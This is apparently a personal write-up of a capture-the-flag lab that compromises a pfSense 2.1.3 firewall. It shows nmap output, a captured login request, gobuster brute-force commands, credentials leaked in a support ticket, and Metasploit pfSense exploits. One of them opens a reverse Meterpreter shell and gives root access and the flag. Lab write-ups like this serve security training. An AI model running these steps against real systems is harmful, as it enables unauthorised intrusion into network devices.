

80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.240.189/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login

use burp suite

POST /index.php HTTP/1.1
Host: 10.129.240.189
Cookie: PHPSESSID=40355586b2007ce14d9310c2331b1a9e; cookie_test=1684611992
Content-Length: 181
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://10.129.240.189
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://10.129.240.189/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

__csrf_magic=sid%3A95ceb9ace98092112d10bbecc4ab90ad8e8d8abb%2C1684608392%3Bip%3A1a5d84206393f8d5fe7bbb0a112bb8cd5aee1dc2%2C1684608392&usernamefld=admin&passwordfld=admin&login=Login

default passwords dont work

tried couple of metasploit exploit

```
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > run

[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Could not find pfSense title html tag ForceExploit is enabled, proceeding with exploitation.
[*] Uploading webshell to /jzbTasGHNas.php
[*] Testing if web shell installation was successful
[-] Exploit aborted due to failure: unexpected-reply: Unexpected HTTP status code 404
[*] Exploit completed, but no session was created.

```

gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.240.189 -k -x txt -t 250

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

feroxbuster failed miserably here

the changelog talks about a vulnerability

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

used rohit and pfsense

 	2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16

gobuster dir -u http://www.targetwebsite.com/ -w /usr/share/wordlists/big.txt -x php,html,htm



msf6 exploit(unix/http/pfsense_graph_injection_exec) > set username rohit
username => rohit
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run

[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (39927 bytes) to 10.129.240.189
[+] Deleted VwqmH
[*] Meterpreter session 1 opened (10.10.16.15:4444 -> 10.129.240.189:45651) at 2023-05-21 02:40:33 -0400

meterpreter > shell
Process 93785 created.
Channel 2 created.
bg
bg: No current job
ls
.tcshrc
user.txt
whoami
root
cd ..
cd /root
dir
dir: not found
ls 
.cshrc
.first_time
.gitsync_merge.sample
.hushlogin
.login
.part_mount
.profile
.shrc
.tcshrc
root.txt
cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86


# lesson learnt

1. used go buster instead of feroxbuster sometimes mixing and matvhing the tools help

2. meterpreter session can grant you root shell !
